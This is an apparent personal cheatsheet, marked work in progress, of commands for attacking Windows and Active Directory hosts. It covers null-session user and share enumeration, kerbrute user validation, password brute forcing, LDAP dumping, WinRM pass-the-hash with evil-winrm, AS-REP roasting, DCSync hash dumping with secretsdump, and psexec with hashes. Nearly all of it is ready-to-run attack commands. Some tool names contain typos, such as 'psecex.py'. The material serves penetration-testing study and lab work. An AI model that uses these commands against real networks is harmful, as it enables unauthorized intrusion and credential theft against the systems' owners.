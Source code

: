 Windows Enum Cheatsheet
=======================
----------------------
(work in progress)

## enum users
```
rpcclient -U '' 10.10.1.2
enumdomusers	# search for users
querydispinfo	# anything in description field
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.doe     Name: Adrian Doe   Desc: (null)
queryuser 0x464 # see more info
```
get only usernames:
```
cat file | awk -F\[ '{print $2}' | awk -F\] '{print $1}' > users.txt
```

## enum shares
with the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
crackmapexec smb 10.10.1.2 --shares
crackmapexec smb 10.10.1.2 -u '' -p '' --shares
crackmapexec smb 10.10.1.2 -u '' --shares

smbclient -L 10.10.1.2
smbclient -U '' -L 10.10.1.2

smbmap -H 10.10.1.2 -u '' -p ''
```

## check valid users
https://github.com/ropnop/kerbrute
```
./kerbrute userenum --dc 10.10.1.2 --d domainname.local users.txt 
```

## brute force
with the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
Get the password policy:
```
crackmapexec smb 10.10.1.2 --pass-pol
```
Check the accountlockout option before you start a brute force. Also you can check the min length etc.
```
crackmapexec smb 10.10.1.2 -u users.txt -p password.txt 
```
make sure you update to the latest version if you want to use this:
```
cme smb 10.10.10.182 -u username -p password -M spider_plus
```
This crawls through every share we have access to and returns it in json.

## mount
```
mkdir /mnt/data
mount -t cifs -o 'user=username,password=password' //10.10.1.2/sharename /mnt/sharename
```

## ldap
```
ldapsearch -x -h 10.10.1.2 -s base namingcontexts
```

Query domain and dump ldap:
```
ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=example,DC=local' > ldapdump
```
Grab interesting unique things:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr
```
Get rid of base64:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr | grep : 
```
If you find anything interessting search for it in the dump

## Gaining access
check
with the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
cme winrm 10.10.1.2 -u username -p password
cme winrm 10.10.1.2 -u username -H ntlmhash
```
evil-winrm: (when it's not installed use this, otherwise it's just 'evil-winrm -i ... etc')
```
ruby evil-winrm.rb -i 10.10.1.2 -u username -p password
ruby evil-winrm.rb -i 10.10.1.2 -u username -H ntlmhash

```
## Impacket
### GetNPUsers.py
Queries target domain for users with 'Do not require Kerberos pre auth' set and export the TGTs for cracking
```
GetNPUsers.py domainname.local/ -usersfile users.txt -format john
```
### secretsdump.py
Let the domain think you are another DC. In order to sync I need all the password hashes. So with the right persmissions you'll get some hashes.
```
secretsdump.py domainname.local/username@10.10.2.1
```

### pcexec.py
format for hash is LMHASH:NTHASH, but you can use the NTLM hash twice because windows doesn't really use LMHASH
```
psecex.py domainname.local/username@10.10.2.1 -hashes NTLM:NTLM



